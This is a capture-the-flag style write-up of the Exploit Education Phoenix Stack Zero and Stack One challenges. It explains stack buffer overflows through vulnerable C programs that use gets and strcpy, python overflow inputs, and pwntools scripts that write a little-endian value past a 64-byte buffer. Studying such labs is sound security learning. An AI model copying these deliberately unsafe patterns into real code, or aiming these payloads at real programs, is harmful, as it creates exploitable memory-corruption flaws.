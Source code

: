 # Buffer Overflow

In C, a buffer is an area of memory set aside for the temporary storage of data. A buffer overflow is when an input to a buffer exceeds the original intended buffer area, overwriting other program information, thus making the program behave unexpectedly. In CTFs, I have seen two main types of overflows: overflowing the buffer, and overflowing the buffer and writing an address for the system to return to. I will be using the https://exploit.education/phoenix/ Stack series to show how to overflow the buffers. I will also use this as an opportunity for myself to learn how to properly use `pwntools` as well.

## Stack Zero

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

Here, we can see that the buffer is set to 64: `char buffer[64];` In addition, we see the system uses `gets`, which is a vulnerable function, as it allows us to input more information than the buffer can hold, allowing for overflow. To write 64 characters in python, we can just do the following command: `python3 -c 'print("A"*64)'`. This outputs 64 "A"'s. However, the buffer is 64 and we need to write more than 64 bytes in order to conduct a buffer overflow. Thus, we run the following: `python3 -c 'print("A"*65)'`. This gives us the following output in the code:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Well done, the 'changeme' variable has been changed!
```

We have then overflowed the `locals.changeme` variable. 

## Stack One

This process is similar to the aforementioned, however, instead of any string, you put a hexadecimal string. 

```C
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}
```

If we add an extra `A` to the input from last time, we get the following:

```
./a.out AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA                                
Getting closer! changeme is currently 0x00000041, we want 0x496c5962
```

So we are able to modify this value. The result we want is `0x496c5962`. 

> One thing to note, is that if we add an extra `B` to the end, we get `0x00004241`. This means that we have to use little endian for the solution. For example, if we used big endian, we would have `0x62596c49` (`0x496c5962` "backwards"), which is not what we want. If you want to learn more, look into endianness. 

I ended up writing the following code in Python 3 to solve this challenge:

```python
#!/usr/bin/python3
# Library import
from pwn import *
import subprocess

# The process
#elf = ELF("./a.out", checksec=True)
#p = process('./vulnerable_binary'); if not ELF
#p = elf.process()

# Context = Little vs Big Endian 
# For number 12 34, Big:0x12 0x34; Little:0x34 0x12
context(endian="little", log_level="debug")

#payload format using flat
#Helps to format strings better visually
payload = flat({
    64: p32(0x496c5962) #No need for quotes here; It basically cyclic fills until 64
})

binary = subprocess.run(["./a.out", payload]) #I use this because the file requires command line argument. Haven't figured that out yet using pwntools.
print(binary)
```

I have tried to add comments to the code to make it more explanatory. TLDR, I use flat to create a payload of 64 bytes of random characters, it then sends `0x496c5962` and limits it to 32 bytes (`p32()). From there, I use the subprocess library then add the payload as an argument to the binary.

With that, we get the flag:

```
Well done, you have successfully set changeme to the correct value
CompletedProcess(args=['./a.out', b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaabYlI'], returncode=0)
```

After reading the write-up at https://github.com/secnate/Exploit-Education-CTFs/blob/main/Phoenix/stack-one/exploit.py, I realized that I could have added an argument using process. Here is a secondary solution:

```python
#!/usr/bin/python3
from pwn import *
import subprocess
context(endian="little", log_level="debug")
payload = flat({
    64: p32(0x496c5962) #No need for quotes here; It basically cyclic fills until 64
})
p = process(["./a.out", payload])
p.interactive()
```

## Sources
- https://www.tutorialandexample.com/what-is-a-buffer-in-c
- https://exploit.education/phoenix/
- https://stackoverflow.com/questions/701624/difference-between-big-endian-and-little-endian-byte-order
- https://xanhacks.gitlab.io/ctf-docs/pwn/pwntools/